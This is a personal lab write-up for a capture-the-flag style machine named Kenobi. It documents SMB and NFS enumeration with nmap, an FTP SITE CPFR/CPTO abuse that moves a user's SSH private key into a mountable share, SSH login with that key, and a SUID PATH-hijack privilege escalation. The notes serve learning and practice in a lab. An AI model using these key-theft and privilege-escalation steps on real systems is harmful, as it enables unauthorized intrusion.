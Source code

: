 #samba #smb #searchsploit #scp 


**General steps:**
```
Enumerate: Checkout services, check open samba shares, check existing ssh users, check ftp services, check points of mounting, check for exploit for the services versions.

Exploit: Use the ftp exploit to move the ssh id key of the kenobi user into a mountable and writeable folder.

PrivEsc: We have the ssh login of kenobi, now we need to privesc. Find a odd file with SUID bit, check how it works and what commands it runs. Exploit that it does not use absolute paths when calling curl, make our own "curl file" which get execute insted and opens a root shell.
```



```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.79.202
```

```
└─$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.79.202
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 06:53 EST
Nmap scan report for 10.10.79.202
Host is up (0.044s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.79.202\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.79.202\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.79.202\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```


**enumerate rpcbind**
```
└─$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.79.202
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 07:03 EST
Nmap scan report for 10.10.79.202
Host is up (0.051s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *

```

- We can mount to /var directory. 

**Check for exploits on the ftp service**
![[Pasted image 20250208130606.png]]

![[Pasted image 20250208131554.png]]



- We found the location of the kenobi secret key from the samba log, and we move it to a folder we can mount to remotely and have write permissions to. 
- The commands we use SITE CPFR, SITE CPTO 


![[Pasted image 20250208131112.png]]
- OPS, did not mean to call the fill ip_rsa 


- Q: do we need to mount from /mnt ? 
```
sudo mount 10.10.79.202:/var /mnt/kenobiNFS
```

- Here we get the id_rsa, private key for kenobi ssh login, which we moved to /var earlier 
- Then we can use it to access the ssh server:
```
ssh -i id_rsa kenobi@10.10.79.202
```


- we browse some files, and find a file we want to download. We can do this with scp from our local machine:
```
scp -i id_rsa kenobi@10.10.79.202:/home/kenobi/user.txt .
```

- We got the user.txt, now lets get root.


**PrivEsc:**



- Start by checking commands which has the SUID-bit:
```
kenobi@kenobi:~$ find / -type f -perm -04000 -ls 2>/dev/null
   279750     96 -rwsr-xr-x   1 root     root        94240 May  8  2019 /sbin/mount.nfs
   277766     16 -rwsr-xr-x   1 root     root        14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   276573     44 -rwsr-xr--   1 root     messagebus    42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   277903    100 -rwsr-sr-x   1 root     root          98440 Jan 29  2019 /usr/lib/snapd/snap-confine
   260788     12 -rwsr-xr-x   1 root     root          10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   276950    420 -rwsr-xr-x   1 root     root         428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
   275955     40 -rwsr-xr-x   1 root     root          38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   260462     52 -rwsr-xr-x   1 root     root          49584 May 16  2017 /usr/bin/chfn
   275975     36 -rwsr-xr-x   1 root     root          32944 May 16  2017 /usr/bin/newgidmap
   277767     24 -rwsr-xr-x   1 root     root          23376 Jan 15  2019 /usr/bin/pkexec
   260602     56 -rwsr-xr-x   1 root     root          54256 May 16  2017 /usr/bin/passwd
   275974     36 -rwsr-xr-x   1 root     root          32944 May 16  2017 /usr/bin/newuidmap
   260525     76 -rwsr-xr-x   1 root     root          75304 May 16  2017 /usr/bin/gpasswd
   280011     12 -rwsr-xr-x   1 root     root           8880 Sep  4  2019 /usr/bin/menu
   260686    136 -rwsr-xr-x   1 root     root         136808 Jul  4  2017 /usr/bin/sudo
   260464     40 -rwsr-xr-x   1 root     root          40432 May 16  2017 /usr/bin/chsh
   277159     52 -rwsr-sr-x   1 daemon   daemon        51464 Jan 14  2016 /usr/bin/at
   260591     40 -rwsr-xr-x   1 root     root          39904 May 16  2017 /usr/bin/newgrp
   260206     28 -rwsr-xr-x   1 root     root          27608 May 16  2018 /bin/umount
   276584     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
   260157     40 -rwsr-xr-x   1 root     root          40152 May 16  2018 /bin/mount
   260171     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
   260188     40 -rwsr-xr-x   1 root     root          40128 May 16  2017 /bin/su
   260172     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
```


CLEANER way to view the SUID bit file:

```
find / -perm -u=s -type f 2>/dev/null
```

- A file which look off is the /usr/bin/menu file, we try to run it:
![[Pasted image 20250208135613.png]]

- Investegating the binary with string, we can see:
![[Pasted image 20250208140047.png]]
- It do not uses absolute paths for the commands curl or uname (not using /usr/bin/curl). 
- So we can make our own file named curl, which contain a shell, and the menu binary will run this instead of the actual curl command. 
![[Pasted image 20250208140428.png]]

